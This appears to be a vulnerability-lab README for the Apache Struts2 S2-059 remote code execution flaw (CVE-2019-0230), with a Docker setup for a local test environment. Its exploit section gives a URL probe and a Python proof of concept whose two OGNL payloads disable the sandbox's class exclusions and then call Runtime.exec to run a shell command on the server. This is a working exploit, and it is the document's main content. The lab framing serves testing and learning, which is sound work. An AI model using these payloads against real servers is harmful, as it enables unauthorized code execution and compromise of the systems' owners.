


# Struts2 S2-059 Remote Code Execution Vulnerablity(CVE-2019-0230)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache Struts frameworks, when forced, performs double evaluation of attributes' values assigned to certain tags attributes such as id so it is possible to pass in a value that will be evaluated again when a tag's attributes will be rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

Affected Version: Struts 2.0.0 - Struts 2.5.20

References:

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## Setup

Start the Struts 2.5.16 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/?id=1` and you will see the Struts2 test page.

## Exploit

visit `http://your-ip:8080/?id=%25%7B233*233%7D`, it can be seen that the result of 233*233 has been returned in the id attribute.



[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776) gives the details of OGNL sandbox bypass in Struts 2.5.16.

A simple Python POC for Verifying the vulnerability:

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

Execute the poc and the `touch /tmp/success` command has been executed:


